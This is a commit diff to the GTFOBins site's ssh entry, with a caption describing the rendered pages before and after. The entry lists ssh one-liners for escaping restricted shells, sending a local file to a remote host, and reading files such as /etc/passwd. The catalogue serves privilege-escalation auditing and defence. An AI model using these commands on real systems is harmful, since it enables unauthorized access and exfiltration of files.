

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/ssh.md, in a window 1280 px wide. Shown: the whole page, without its empty margins (208-1031 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 1089 px from its top, so only the background shows below that.

Commit message:
Update ssh.md
Amended as requested

```diff
--- a/_gtfobins/ssh.md
+++ b/_gtfobins/ssh.md
@@ -2,7 +2,7 @@
 functions:
   execute-interactive:
     - description: Reconnecting may help bypassing restricted shells.
-      code: ssh localhost /bin/bash --noprofile --norc
+      code: ssh localhost $SHELL --noprofile --norc
   download:
     - description: Fetch a remote file from a SSH server.
       code: |
@@ -17,10 +17,9 @@ functions:
         RPATH=where_to_save
         LPATH=file_to_send
         ssh $HOST "cat > $RPATH" < $LPATH
-  read file:
+  file-read:
     - description: Read strings from text files. Reliability depends on content of files but works well with /etc/passwd
-      code: ssh -F /etc/passwd localhost
-  file exists:
-    - description: Tests whether a file exists.
-      code: ssh -i /filename localhost
+    - code: |
+        LFILE=file_to_read
+        ssh -F $LFILE localhost
 ---
```
